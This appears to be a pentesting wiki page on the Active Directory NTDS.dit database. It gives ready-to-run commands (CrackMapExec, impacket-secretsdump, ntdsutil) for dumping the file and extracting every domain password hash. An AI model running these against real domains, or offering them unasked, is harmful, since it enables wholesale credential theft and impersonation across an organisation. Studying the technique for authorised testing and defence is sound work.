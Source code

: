 # NTDS

The NTDS.dit file (NTDS) is a database which stores confidential Active Directory information such as usernames, objects, groups, and password hashes. Once the NTDS.dit file has been retrieved, an attacker can effectively impersonate any member of the domain. This file is stored on domain controllers, meaning that full domain compromise has to occur in order to retrieve it.

### Exploitation

CrackMapExec and Impacket are  the easiest ways to remotely dump the NTDS.dit after Domain Administrator credentials have been obtained:

```bash
# CrackMapExec
crackmapexec smb -u $user -p $password -ntds 

# Impacket
impacket-secretsdump -just-dc-ntlm oasis/administrator@$dcip
```

Alternatively, [an attacker can dump the NTDS.dit manually](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration) if they have a shell on a Domain Controller:&#x20;

```bash
# Dump the NTDS
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

# Dump the password hashes offline 
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration" %}
